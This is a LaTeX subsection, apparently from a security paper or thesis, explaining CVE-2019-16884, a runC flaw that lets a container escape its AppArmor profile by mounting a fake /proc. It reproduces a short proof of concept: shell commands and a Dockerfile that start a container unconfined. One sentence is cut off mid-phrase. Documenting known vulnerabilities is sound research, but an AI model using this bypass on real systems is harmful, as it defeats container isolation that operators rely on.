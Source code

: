 \subsection{CVE--2019--16884}
Because of a bug in runC (1.0.0-rc8 and older versions) it was possible to mount \lstinline{/proc} in a. Because the active AppArmor profile is defined in \lstinline{/proc/self/attr/apparmor/current}, this vulnerability allows a container to bypass AppArmor completely.

\hfill

A proof of concept has been provided at\cite{CVE-2019-16884-Github}. We see that if we create a very simple mock \lstinline{/proc}, the Docker starts without the specified AppArmor profile.
\begin{lstlisting}
(host)$ mkdir -p rootfs/proc/self/{attr,fd}
(host)$ touch rootfs/proc/self/{status,attr/exec}
(host)$ touch rootfs/proc/self/fd/{4,5}
(host)$ cat Dockerfile
FROM busybox
ADD rootfs /

VOLUME /proc
(host)$ docker build -t apparmor-bypass .
(host)$ docker run --rm -it --security-opt "apparmor=docker-default"  apparmor-bypass
# container runs unconfined
\end{lstlisting}
